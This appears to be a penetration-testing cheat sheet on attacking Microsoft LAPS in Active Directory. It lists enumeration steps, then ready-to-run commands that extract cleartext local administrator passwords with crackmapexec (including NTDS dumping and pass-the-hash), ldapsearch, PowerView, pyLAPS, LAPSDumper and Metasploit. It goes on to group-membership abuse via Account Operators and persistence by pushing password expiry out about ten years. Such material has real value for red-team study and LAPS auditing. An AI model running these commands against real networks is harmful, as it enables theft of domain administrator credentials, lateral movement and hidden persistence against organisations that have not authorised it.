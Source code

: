 # ENUMERATION

    dir "C:\Program\LAPS\CSE"

    Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

    Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

    Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

    reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

    Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" is a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) 

    Get-Command *Admpwd*

#### 2) 

    Find-AdmPwdExtendedRights -Identity *

#### 3) 
    
    net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) 

    Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

    crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

    crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' --laps

#### 2) ldapsearch

    ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

    Get-LAPSComputers

    Find-LAPSDelegatedGroups

    Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

    Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd

    Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

    Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

    Get-AdmPwdPassword -ComputerName wkstn-2 | fl (Find the principals that have ReadProperty on ms-Mcs-AdmPwd

    Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd (Read the password)

#### 6) pyLAPS (Linux)

### Read the password of all computers

    ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip IP_ADDRESS

### Write a random password to a specific computer

    ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local'

#### 7) LAPSDumper (Linux)

    python laps.py -u 'user' -p 'password' -d 'domain.local'

    python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local

#### 8) AdmPwd.PS

    Find-AdmPwdExtendedRights -identity *

    Find-AdmPwdExtendedRights -identity 'OU' | select-object ExtendedRightHolders

    get-admpwdpassword -computername COMPUTER_NAME | Select password

#### 9) Metasploit

    use post/windows/gather/credentials/enum_laps

# GRANT LAPS ACCESS

### The members of the group "Account Operator" can add and modify all the non admin users and groups. Since LAPS ADM and LAPS READ are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

    Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain

    Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain

# LAPS Persistence

LAPS may be configured to automatically update a computers password on a regular basis. If we have compromised a computer and elevated to SYSTEM we can update the value to never expire for 10 years as a means of persistence.

#### PowerView

    Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
    Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object '[HostName$]'

